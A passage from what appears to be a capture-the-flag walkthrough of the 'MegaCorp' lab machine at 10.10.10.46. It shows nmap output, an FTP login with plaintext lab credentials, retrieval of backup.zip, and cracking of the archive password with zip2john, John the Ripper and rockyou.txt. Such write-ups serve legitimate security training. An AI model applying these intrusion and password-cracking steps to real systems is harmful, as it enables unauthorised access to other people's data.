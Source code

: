 ```shell
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.64 seconds

```
The credentials **ftpuser** with  **mc@F1l3ZilL4** can be used to login to the
FTP server.

***ftp 10.10.10.46***

  ``` code 
ftp 10.10.10.46
Connected to 10.10.10.46.
220 (vsFTPd 3.0.3)
Name (10.10.10.46:kali): ftpuser
331 Please specify the password.
Password:
230 Login successful.

```
Let’s see what is in there:
``` code
 Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2533 Feb 03 11:27 backup.zip
226 Directory send OK.

  ```

A file named **backup.zip** is found in the folder. Let get the \*.zip
file:
``` code
ftp> get backup.zip
local: backup.zip remote: backup.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for backup.zip (2533 bytes).
226 Transfer complete.
2533 bytes received in 0.00 secs (1.1824 MB/s)
ftp> 
741852963        (backup.zip)
```
Extraction of the archive fails as it's password protected. The password
can be cracked using **zip2john**, **JohntheRipper** and
**rockyou.txt**.
